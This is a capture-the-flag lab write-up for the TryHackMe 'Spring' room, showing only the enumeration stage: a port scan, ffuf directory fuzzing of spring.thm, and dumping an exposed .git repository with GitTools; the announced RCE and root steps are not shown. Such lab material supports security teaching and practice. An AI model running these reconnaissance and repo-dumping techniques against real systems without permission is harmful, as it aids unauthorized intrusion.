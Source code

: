 # 94 - Spring (GIT files analysis, SpringBoot RCE, su bruteforce, Modify service files to gain root)

Room Link --> [https://tryhackme.com/room/spring](https://tryhackme.com/room/spring)

### Enumeration

{% code overflow="wrap" lineNumbers="true" %}
```bash
PORT 22
80/tcp  open  http
443/tcp open  ssl/https
```
{% endcode %}

Added `spring.thm` to /etc/hosts. When navigating to it, we get automatically redirected to "https" .

#### FFUF enum

{% code overflow="wrap" %}
```bash
ffuf -u https://spring.thm/sources/new/FUZZ -w /usr/share/dirb/wordlists/common.txt -t 200

sources
```
{% endcode %}

We fuzzed again and got...

```bash
/sources/new/.git/HEAD
```

We see a `.git` repo here, we can run GitTools to dump the entire repo.

{% code overflow="wrap" %}
```bash
dking@dking ~/Downloads$ /opt/GitTools/Dumper/gitdumper.sh https://spring.thm/sources/new/.git/ .

[*] Destination folder does not exist
[+] Creating ./.git/
[+] Downloaded: HEAD
[-] Downloaded: objects/info/packs
[+] Downloaded: description
[+] Downloaded: config
[+] Downloaded: COMMIT_EDITMSG
[+] Downloaded: index
[-] Downloaded: packed-refs
[+] Downloaded: refs/heads/master
[-] Downloaded: refs/remotes/origin/HEAD
[-] Downloaded: refs/stash
[+] Downloaded: logs/HEAD
[+] Downloaded: logs/refs/heads/master
[-] Downloaded: logs/refs/remotes/origin/HEAD
[-] Downloaded: info/refs
[+] Downloaded: info/exclude
[-] Downloaded: /refs/wip/index/refs/heads/master
[-] Downloaded: /refs/wip/wtree/refs/heads/master
[+] Downloaded: objects/1a/83ec34bf5ab3a89096346c46f6fda2d26da7e6
[-] Downloaded: objects/00/00000000000000000000000000000000000000
[+] Downloaded: objects/92/b433a86a015517f746a3437ba3802be9146722
[+] Downloaded: objects/39/858db3349ea85bfc5b0120dc5d2ca45f0683af
[+] Downloaded: objects/6b/d070178569781eb0534f575e52157aa59a501e
[+] Downloaded: objects/b4/63ef229486f86eeb72b89539bd3339e485807f
[+] Downloaded: objects/5d/eeca1fbb8b02b7a5fbf1776a9b6fc803afda32
[+] Downloaded: objects/8f/8904743c007a1542d0047be84912b7aa15279f
```